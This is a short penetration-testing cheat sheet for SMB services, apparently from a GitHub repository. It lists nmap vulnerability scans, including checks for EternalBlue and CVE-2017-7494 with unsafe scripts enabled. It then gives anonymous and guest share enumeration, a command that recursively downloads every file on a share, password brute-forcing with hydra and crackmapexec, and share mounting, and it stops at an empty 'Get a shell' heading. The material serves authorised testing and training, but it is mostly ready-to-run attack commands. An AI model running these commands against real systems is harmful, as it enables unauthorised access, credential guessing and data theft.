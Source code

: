 ### Scan for vulnerability

```
nmap -p139,445 --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>
```

If :

- MS17-010 - [EternalBlue](#EternalBlue (MS17-010))
- MS08-067 - [MS08-067](#MS08-067)
- CVE-2017-7494 - [CVE-2017-7494](#CVE-2017-7494)

### Manual testing

```
smbmap -H <IP>
smbmap -u '' -p '' -H <IP>
smbmap -u 'guest' -p '' -H <IP>
smbmap -u '' -p '' -H <IP> -R

crackmapexec smb <IP>
crackmapexec smb <IP> -u '' -p ''
crackmapexec smb <IP> -u 'guest' -p ''
crackmapexec smb <IP> -u '' -p '' --shares

enum4linux -a <IP>

smbclient --no-pass -L //$IP
smbclient //<IP>/<SHARE>

# Download all files from a directory recursively
smbclient //<IP>/<SHARE> -U <USER> -c "prompt OFF;recurse ON;mget *"
```

### Brute force

```
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

### Mount a SMB share

```
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

### Get a shell
